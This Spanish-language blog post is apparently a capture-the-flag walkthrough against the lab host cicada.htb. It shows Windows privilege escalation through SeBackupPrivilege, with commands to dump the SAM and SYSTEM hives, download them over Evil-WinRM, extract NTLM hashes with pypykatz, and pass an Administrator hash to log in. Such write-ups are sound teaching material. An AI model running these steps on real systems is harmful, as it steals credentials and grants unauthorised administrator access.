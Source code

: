 ```yaml
---
title: Windows Privilege Escalation SeBackupPrivilege
author: Fuzz3d
date: 2024-10-17
categories: [Blogging, Web]
tags: [hacking, windows]
render_with_liquid: false
---
```


## **¿Qué es SeBackupPrivilege?**

SeBackupPrivilege es un privilegio de Windows que se utiliza para realizar copias de seguridad de archivos y directorios. Cuando un usuario o proceso tiene este privilegio, puede leer y escribir archivos y directorios sin necesidad de tener permisos de lectura o escritura en los mismos

## **Explotando este privilegio**

Ahora que ya sabemos de que trata este privilegio vamos a utilizar esto para nuestra ventaja. Para empezar, iremos al directorio C:\ y luego crearemos un directorio Temp. También podemos ir a un directorio con privilegios de lectura y escritura si el atacante quiere ser astuto. Luego cambiamos el directorio a Temp. Aquí usamos nuestro SeBackupPrivilege para leer el archivo SAM y guardar una copia del mismo. Del mismo modo, leemos el archivo SYSTEM y guardamos una copia del mismo.

```shell
cd c:\

mkdir Temp

reg save hklm\sam c:\Temp\sam

reg save hklm\system c:\Temp\system
```

![alt text](../assets/img/241016_22h00m07s_screenshot.png)

Esto significa que ahora nuestro Directorio Temp debe tener un archivo SAM y un archivo SYSTEM. Evil-WinRM tiene una opcion que nos permite transferir los archivos de la maquina victima a nuestra maquina host, lo que haremos es descargar ambos archivos.

> **Fichero SAM (Security Accounts Manager):**
> El fichero SAM es un fichero de base de datos que almacena información sobre las cuentas de usuario y grupo del sistema

> **Fichero SYSTEM:**
> El fichero SYSTEM es un fichero de configuración que almacena información sobre la configuración del sistema operativo

```shell
download sam

download system
```

![alt text](../assets/img/241016_22h09m19s_screenshot.png)

Ahora, podemos extraer los secretos desde el archivo SAM y SYSTEM usando pypykatz, un extractor de contraseñas y otros secretos de la memoria de Windows.

```bash
pypykatz registry --sam sam system
```

![!\[\[Pasted image 20241016221220.png\]\]](../assets/img/241016_22h12m14s_screenshot.png)

Tan pronto como el comando se ejecuta, podemos ver en la siguiente demostración que hemos extraído con éxito los hashes NTLM de la cuenta de administrador y otros usuarios también.

Ahora, podemos usar el Hash NTLM del usuario Administrator para obtener acceso a la máquina destino como usuario administrador. De nuevo utilizamos Evil-WinRM para hacer esto. 

```shell
evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```

![!\[\[Pasted image 20241016221500.png\]\]](../assets/img/241016_22h14m51s_screenshot.png)
